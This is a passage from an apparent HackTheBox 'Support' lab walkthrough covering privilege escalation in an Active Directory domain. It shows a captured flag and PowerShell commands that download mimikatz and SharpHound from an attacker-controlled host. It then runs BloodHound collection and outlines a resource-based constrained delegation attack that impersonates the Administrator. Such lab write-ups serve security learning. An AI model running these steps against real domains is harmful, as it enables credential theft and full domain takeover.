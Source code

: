 And we got the user flag:

``` b7fdbc0ca55931404b6a4bc93d443cf2 ```


## Privesc

First, I loaded mimikatz and SharpHound into the box and run SharpHound over the domain:

```bash

Invoke-WebRequest -Uri "http://10.10.14.3:5454/mimikatz.exe" -outfile mimikatz.exe
Invoke-WebRequest -Uri "http://10.10.14.3:5454/SharpHound.ps1" -outfile SharpHound.ps1


*Evil-WinRM* PS C:\Users\support\Desktop> Get-ExecutionPolicy -List

        Scope ExecutionPolicy
        ----- ---------------
MachinePolicy       Undefined
   UserPolicy       Undefined
      Process       Undefined
  CurrentUser       Undefined
 LocalMachine    RemoteSigned


*Evil-WinRM* PS C:\Users\support\Desktop> Import-Module .\SharpHound.ps1
*Evil-WinRM* PS C:\Users\support\Desktop> Invoke-Bloodhound -CollectionMethod All -Domain support.htb -ZipFileName loot.zip
```

With bloodhound we can see that the user support@support.htb has _GenericAll_ over the Domain Controller, so we can read/write over computer objects in the DC. Also there is one **Group Delegated Object Control** which means that probably, we can execute a _Kerberos Resource-based Constrained Delegation_ by computer object takeover:

<p align="center">
  <img src="/images/walkthrougshs/hackthebox/support/6_0_blood.png" width="90%"/>
</p>


### Kerberos Resource-based Constrained Delegation

How it works? 

1. We can create a MachineAccount on the AD let's call it FAKE01$ (thanks to ms-ds-machineaccountquota > 0). 
2. Then we can set the DC to trust FAKE01$ to act on behalf of other identities, including as an Administrator (thanks to the GenericAll permission over the DC).
3. Since we have created the FAKE01$ computer and we know its password, we can request Kerberos for a ticket impersonating the Admin. 
4. The computer is allowed to impersonate the Admin, so Kerberos will provide the ticket for the Administrator.
5. We can grab the ticket and use it and log into the DC or use it as we want to.
